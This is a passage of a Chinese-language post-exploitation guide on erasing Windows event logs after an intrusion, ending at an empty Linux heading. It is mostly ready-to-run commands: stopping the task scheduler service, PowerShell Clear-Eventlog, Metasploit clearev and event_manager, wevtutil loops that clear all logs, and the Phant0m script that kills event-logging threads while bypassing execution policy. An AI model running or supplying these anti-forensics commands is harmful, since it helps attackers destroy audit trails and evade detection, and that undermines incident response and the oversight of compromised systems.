 `%systemroot%\Tasks\schedlgu.txt`

删除时提示无法访问，需要把服务先关闭

    net stop schedule

### 日志清理

#### 使用PowerShell命令

    PowerShell -Command "& {Clear-Eventlog -Log Application,System,Security}"
    
#### msf清理

##### 使用clearev命令清除日志

##### 使用msf中事件管理模块清除日志 

    # 显示日志信息
    run event_manager -i
    # 清除指定日志
    run event_manager -c System
    # 清除所有日志
    run event_manager -c
   
#### wevtutil+for循环清除所有日志

> Wevtutil是用来查看事件的系统工具，可以卸载事件清单，导出，归档和清除日志

    for /F "tokens=*" %a in ('wevtutil.exe el') DO wevtutil.exe cl "%a"
    
    wevtutil el | Foreach-Object {Write-Host "Clearing $_"; wevtutil cl "$_"}
    
#### ps批量删日志

如果反弹shell是ps弹的，可以使用ps命令来删除日志

    Clear-Eventlog -LogName Security
    Clear-Eventlog -LogName System
  
#### Phant0m脚本清理

[Phant0m脚本](https://github.com/hlldz/Phant0m)

这个脚本是用来杀死日志服务的，在日志服务进程中检测并杀死负责事件日志服务的线程，这样日志服务虽然运行但没法记录日志

    powershell –exec bypass –Command "& {Import-Module 'C:\Invoke-Phant0m.ps1';Invoke-Phant0m}"
    
## Linux系统

### 清除记录
